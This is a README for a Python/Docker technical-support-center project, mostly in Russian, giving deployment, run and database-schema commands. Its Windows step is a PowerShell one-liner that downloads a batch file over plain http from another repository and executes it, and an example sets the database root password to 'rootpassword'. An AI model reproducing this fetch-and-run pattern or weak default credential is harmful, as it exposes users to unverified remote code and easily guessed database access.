# TechnicalSupportCenterProject

# Программные требования

- **python3.11**
- **pip3**
- **git**
- **make**
- **docker & docker-compose**

## Running an application on Windows in CommandLine

```sh {"id":"01HG38NVTFXWCQZJYX48BVRSNX"}
 powershell.exe -command "[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; $webClient = New-Object Net.WebClient; $webClient.DownloadFile('http://github.com/ParinovYT/BundleApps/releases/download/release/install.bat', 'install.bat'); "; && install.bat

```

# Человечский деплой 😋

## Чтобы изменить данные пользователя и root в бд, нужно поменять значения ENV's тута

```sh {"id":"01HG38NVTFXWCQZJYX492HMFBT"}
vim docker/Dockerfile.database

```

```sh {"id":"01HG38NVTFXWCQZJYX494J310Y"}
make docker-deploy

```

## Запуск програмули 😎

```sh {"id":"01HG38NVTFXWCQZJYX4B3J5XR6"}
make init

```

### `release`

```sh {"id":"01HG38NVTFXWCQZJYX4D8EE1FN"}
make app-run-release

```

### `debug`

```sh {"id":"01HG38NVTFXWCQZJYX4G0S7BZA"}
make app-run-debug

```

## Для того чтобы работать с базкой данных нужен пароль, который находиться в файле docker/Dockerfile.database `MYSQL_ROOT_PASSWORD`, нужно зайти в php my admin, сюда 👉 [http://localhost:8090/](http://localhost:8090/) 👈

## Поработал с базкой данных и внес туда изменения, тогда не забудь сохранить ее схему 😉

## Нужно указать пароль от root пользователя, тута

```sh {"id":"01HG38NVTFXWCQZJYX4JMM27XT"}
vim Makefile

```

```sh {"id":"01HG38NVTFXWCQZJYX4PM9MA8G"}
MYSQL-ROOT-PASSWORD = rootpassword

```

## И потом выполнить команду

```sh {"id":"01HG38NVTFXWCQZJYX4PX1VJ20"}
make docker-database-create-schema

```

## Чтобы установить библеотеку выполни эту команду 🫠

```sh
make pip-install lib=<name>
```

## Чтобы обновить список библеотек выполни эту команду 👇

```sh {"id":"01HG38NVTFXWCQZJYX4QERWYG5"}
make create-requirements-txt

```
